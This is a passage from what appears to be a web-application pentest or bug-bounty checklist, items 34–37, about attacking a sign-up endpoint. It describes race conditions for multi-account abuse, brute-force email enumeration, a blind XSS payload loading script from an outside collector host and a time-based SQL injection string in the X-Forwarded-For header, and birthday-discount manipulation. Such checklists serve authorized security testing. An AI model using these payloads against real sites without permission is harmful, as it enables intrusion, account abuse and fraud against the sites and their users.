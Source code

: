 34. **If The Company Uses Invitation To Create Account Try To Use Race Condition Technique To Create Multi Accounts By Using Only One Invitation:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        Accept-Encoding: gzip, deflate
        email=m&password=********&Invitation=Random`
    - Note: Use automation to create multiple accounts with a single invitation.
    - [ ] Done

35. **Try To Do Brute Force To Create Multi Accounts OR Enumerate Email Addresses If The Company Doesn't Send Activation Link To Your Account:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        Accept-Encoding: gzip, deflate
        email=me@gmail.com&password=********`
    - Note: Use brute force tools to create multiple accounts or enumerate email addresses.
    - [ ] Done

36. **Try To Inject Blind XSS e.g. "><script src=//me.xss.ht></script> OR Time-Based SQLi e.g. ";WAITFOR DELAY '0.0.20'-- In X-Forwarded-For Header:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        Accept-Encoding: gzip, deflate
        email=me@gmail.com&password=********`
    - Note: Test this in X-Forwarded-For header.
    - [ ] Done

37. **Try To Set Your Birthday Today OR Tomorrow To Test Functionality Of Buying Giftcards With Birthday Discounts:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        firstname=I&lastname=am&email=me@gmail.com&birthday=
        Today&password=*****&captcha=Random&token=CSRF`
    - Note: Test setting birthdays to today or tomorrow for potential birthday discounts.
    - [ ] Done
